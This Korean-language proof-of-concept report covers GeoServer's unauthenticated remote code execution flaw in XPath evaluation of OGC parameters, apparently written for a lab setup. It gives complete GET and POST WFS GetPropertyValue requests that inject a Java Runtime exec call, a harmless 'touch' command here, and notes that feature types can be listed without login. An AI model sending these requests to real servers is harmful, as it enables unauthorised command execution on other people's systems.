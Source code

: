 # GeoServer RCE 취약점 PoC 보고서

GeoServer는 자바로 작성된 오픈소스 소프트웨어 서버로, 지리공간 데이터를 조회, 편집, 공유할 수 있는 기능을 제공합니다. 이 서버는 GIS (Geographic Information System) 데이터베이스, 웹 기반 데이터, 개인 데이터셋 등 다양한 출처의 지리공간 데이터를 배포하기 위한 유연하고 효율적인 솔루션을 목표로 설계되었습니다.

GeoServer 2.25.1, 2.24.3 및 2.23.5 이전 버전에서는, 기본 GeoServer 설치 환경에서 인증되지 않은 사용자가 여러 OGC 요청 파라미터를 통해 특수하게 조작된 입력을 전달할 경우 XPath 표현식으로 속성 이름을 안전하지 않게 평가함으로써 원격 코드 실행(RCE)이 가능하게 되는 취약점이 존재합니다.

## 참고 자료

- [GHSA-6jj6-gm7p-fcvv](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv)
- [GHSA-w3pj-wh35-fq8w](https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w)
- [TTTang Archive](https://tttang.com/archive/1771/)
- [CVE-2022-41852 by Warxim](https://github.com/Warxim/CVE-2022-41852)

## 취약 환경

GeoServer 서버 버전 2.23.2를 시작하려면 다음 명령어를 실행합니다:

```bash
docker compose up -d
```
서버가 시작된 후, 웹 브라우저에서 http://your-ip:8080/geoserver 에 접속하면 GeoServer의 기본 페이지가 표시됩니다.

## Exploit (취약점 공격 방법)
공식 취약점 공지에서는 다음과 같은 내용이 제공됩니다:

공개된 PoC (Proof of Concept)는 없으나, 이 취약점은 WFS GetFeature, WFS GetPropertyValue, WMS GetMap, WMS GetFeatureInfo, WMS GetLegendGraphic, 그리고 WPS Execute 요청을 통해 실제로 악용 가능함이 확인되었습니다.

예를 들어, 저는 GetPropertyValue 요청을 이용해 악의적인 XPath 표현식을 실행할 예정입니다. 공식 문서를 참고하면 GET 방식 PoC는 다음과 같습니다:
```bash
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
POST 방식 PoC는 다음과 같습니다:

```xml
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```
전형적으로 발생하는 java.lang.ClassCastException 오류 메시지가 나타날 수 있습니다.
![1.png](./1.png)
![2.png](./2.png)

보시다시피, 명령어 touch /tmp/success1과 touch /tmp/success2가 모두 성공적으로 실행됩니다.

#### 중요 사항
![3.png](./3.png)
typeNames 파라미터는 반드시 존재해야 합니다. 로그인 없이 웹 서버에 존재하는 모든 사용 가능한 타입들을 확인할 수 있습니다.
![4.png](./4.png)

# 원리
### 배경: 
GeoServer는 OGC 표준 프로토콜 (예: WFS, WMS 등)을 제공하며, 내부적으로 XPath와 같은 기능을 사용해 “ValueReference”나 “typeNames” 등을 해석합니다.

### 취약점 요지:
특정 요청 파라미터 (예: valueReference)가 XPath 표현식처럼 처리되며, 동시에 Java의 exec() 함수를 호출할 수 있을 정도로 확장되어 있습니다. 정상적인 경우에는 단순 속성 (예: typeNames=sf:archsites) 만을 해석해야 하지만, GeoServer 내부 코드가 이를 안전하게 검증하지 않고 XPath 구문으로 직렬화하거나 해석함으로써 문제가 발생합니다.

### 결과:
공격자는 exec(java.lang.Runtime.getRuntime(), 'touch /tmp/success1') 같은 Java 함수 호출 구문을 삽입하여 원격 코드 실행(RCE)을 유발할 수 있습니다.

